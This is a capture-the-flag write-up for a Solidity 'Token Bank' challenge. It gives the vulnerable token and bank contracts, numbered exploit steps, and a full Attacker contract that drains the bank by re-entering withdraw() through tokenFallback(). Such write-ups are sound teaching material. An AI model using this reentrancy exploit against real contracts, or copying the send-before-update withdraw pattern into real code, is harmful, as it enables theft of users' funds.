 # Token bank

```
pragma solidity ^0.4.21;

interface ITokenReceiver {
  function tokenFallback(address from, uint256 value, bytes data) external;
}

contract SimpleERC223Token {
  // Track how many tokens are owned by each address.
  mapping (address => uint256) public balanceOf;

  string public name = "Simple ERC223 Token";
  string public symbol = "SET";
  uint8 public decimals = 18;

  uint256 public totalSupply = 1000000 * (uint256(10) ** decimals);

  event Transfer(address indexed from, address indexed to, uint256 value);

  function SimpleERC223Token() public {
    balanceOf[msg.sender] = totalSupply;
    emit Transfer(address(0), msg.sender, totalSupply);
  }

  function isContract(address _addr) private view returns (bool is_contract) {
    uint length;
    assembly {
      //retrieve the size of the code on target address, this needs assembly
      length := extcodesize(_addr)
    }
    return length > 0;
  }

  function transfer(address to, uint256 value) public returns (bool success) {
    bytes memory empty;
    return transfer(to, value, empty);
  }

  function transfer(address to, uint256 value, bytes data) public returns (bool) {
    require(balanceOf[msg.sender] >= value);

    balanceOf[msg.sender] -= value;
    balanceOf[to] += value;
    emit Transfer(msg.sender, to, value);

    if (isContract(to)) {
      ITokenReceiver(to).tokenFallback(msg.sender, value, data);
    }
    return true;
  }

  event Approval(address indexed owner, address indexed spender, uint256 value);

  mapping(address => mapping(address => uint256)) public allowance;

  function approve(address spender, uint256 value)
    public
    returns (bool success)
  {
    allowance[msg.sender][spender] = value;
    emit Approval(msg.sender, spender, value);
    return true;
  }

  function transferFrom(address from, address to, uint256 value)
    public
    returns (bool success)
  {
    require(value <= balanceOf[from]);
    require(value <= allowance[from][msg.sender]);

    balanceOf[from] -= value;
    balanceOf[to] += value;
    allowance[from][msg.sender] -= value;
    emit Transfer(from, to, value);
    return true;
  }
}

contract TokenBankChallenge {
  SimpleERC223Token public token;
  mapping(address => uint256) public balanceOf;

  function TokenBankChallenge(address player) public {
    token = new SimpleERC223Token();

    // Divide up the 1,000,000 tokens, which are all initially assigned to
    // the token contract's creator (this contract).
    balanceOf[msg.sender] = 500000 * 10**18;  // half for me
    balanceOf[player] = 500000 * 10**18;      // half for you
  }

  function isComplete() public view returns (bool) {
    return token.balanceOf(this) == 0;
  }

  function tokenFallback(address from, uint256 value, bytes) public {
    require(msg.sender == address(token));
    require(balanceOf[from] + value >= balanceOf[from]);

    balanceOf[from] += value;
  }

  function withdraw(uint256 amount) public {
    require(balanceOf[msg.sender] >= amount);

    require(token.transfer(msg.sender, amount));
    balanceOf[msg.sender] -= amount;
  }
}
```

## Goal

Withrdaw all of the SET tokens that TokenBankChallenge contract has in possession

## Exploit

In order to finish this CTF we will have to use another smart contract. We can name this contract Attacker.

There are two issues with the TokenBankChallenge, first it is reentrant (withdraw() function) and second there is flawer business login in handling the tokens that the bank possesses.

To exploit the contract we need to:

1. create Attacker contract, this contract will be inheriting ITokenReceiver interface and must have tokenFallback() function implemented, create instances from the SimpleERC223Token contract and TokenBankChallenge contract inside the Attacker contract. This contract will:
  <ul>
  <li>have count storage variable to track how many times tokenFallback() is called</li>
  <li>have external transfer() function, we will call this function to transfer SET tokens from the attacker to the TokenBankChallenge contract, inside it we will make a call to the SimpleERC223Token transfer() function</li>
  <li>tokenFallback() function implemented, this is the function were we will cause the reentrancy to happen</li>
  <li>withdraw() external function, this is the function that will initiate the reentrant call</li>
  </ul>
2. withdraw all of the tokens that our account (player) has in possesion, calling the withdraw function from the TokenBankChallenge contract
3. transfer all of the tokens from the our account (player) to the Attacker contract, using the transfer() function from SimpleERC223Token
4. call the transfer() function from the Attacker contract and transfer all of the SET tokens from the Attacker to the TokenBankChallenge contract, amount should be 500000000000000000000000
5. call the withdraw() function from Attacker contract

## Attacker contract code

```
contract Attacker is ITokenReceiver {
  SimpleERC223Token private token;
  TokenBankChallenge private bank;
  uint256 public count;

  function Hack(address _token, address _bank) public {
    token = SimpleERC223Token(_token);
    bank = TokenBankChallenge(_bank);
  }

  function transfer(address to, uint256 value) external {
    token.transfer(to, value, "");
  }

  function tokenFallback(address from, uint256 value, bytes data) external {
    count++;
    if(count == 2) {
      bank.withdraw(500000000000000000000000);
    }
  }

  function withdraw(uint256 amount) external {
    bank.withdraw(amount);
  }
}
```